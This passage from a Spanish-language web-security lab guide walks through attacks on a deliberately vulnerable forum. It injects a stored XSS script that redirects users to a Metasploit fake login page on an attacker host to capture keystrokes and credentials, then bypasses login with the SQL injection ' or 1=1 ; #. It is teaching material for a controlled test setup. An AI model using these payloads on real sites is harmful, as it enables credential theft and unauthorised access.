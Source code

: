 
    -   Acceder como `pepe` [desde otro navegador] a la lista de
        mensajes para que se active el *keyloger*.

        Se accederá a la URL donde ”escucha” el keyloger de Metasploit y
        lo que se teclee en esa página será capturado.

3.  OPCIONAL: Simular la redirección a una página de lectura de
    credenciales

    -   **Importante: ** es mejor dejar esta prueba para el final,
        puesto que al ejecutarla impedirá comprobar el funcionamiento de
        las pruebas de XSS posteriores.

    El módulo Metasploit genera un página de login simulada (habilitado
    con la opción `DEMO=true`) en la URL
    <span>`http://atacante2.ssi.net:8888/js/demo`</span> para probar la
    redirección y captura de credenciales (en un escenario real se haría
    un ataque de phissing creando una página de login falsa imitando la
    apariencia de la web legítima)

    -   Desde `atacante2` acceder al foro como `ana` y crear un nuevo
        mensaje

            Título: Otro mensaje 
                    inocente <script> window.location.replace("http://atacante2.ssi.net:8888/js/demo") </script>
            Contenido: ...
                  

    -   Acceder como `pepe` a la lista de mensajes para invocar el
        código Javascript inyectado

        Se redireccionará el navegador a una página de login falsa
        creada por Metasploit donde capturará las pulsaciones de
        teclado.

Aplicaciones vulnerables (Inyección SQL)
----------------------------------------

### Inyección SQL Foro ”simple” vulnerable

Desde la máquina `atacante`

-   Volver a la página de inicial del foro:
    `http://modsecurity.ssi.net/foro`

-   Veremos como acceder sin disponer de nombre de usuario ni clave en
    la página de login.

    Indicar lo siguiente en la casilla usuario:

        usuario: ' or 1=1 ; #
        password: <vacío>
               

    Confirmamos cómo se accede la aplicación accede como un usuario
    autorizado (el primero de la base de datos)

    En la máquina `modsecurity`, comprobar cómo sería la consulta SQL
    que usará esos parámetros (ver el código en
    `/var/www/foro/login.php`)
